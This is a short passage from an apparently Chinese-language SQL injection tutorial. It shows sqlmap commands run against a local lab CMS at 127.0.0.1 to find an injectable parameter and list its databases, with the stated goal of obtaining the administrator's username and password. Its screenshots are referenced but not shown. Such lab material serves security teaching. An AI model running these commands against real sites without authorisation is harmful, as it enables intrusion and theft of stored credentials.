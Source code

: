 

## 0x02：简单实操

利用sqlmap 注入得到cms 网站管理员账密

```bash
注入点：http://127.0.0.1/cms/show.php?id=33

python sqlmap.py  -u "http://127.0.0.1/cms/show.php?id=33" 
```

![image-20230824204624937](./imgs/10d675c3febba3a589d410147f2930fc.png)

```sql
python sqlmap.py -u "http://127.0.0.1/cms/show.php?id=33" --dbs --batch
```

![image-20230824204712533](./imgs/dc15921f58360b13bc9c841d8e7f318e.png)
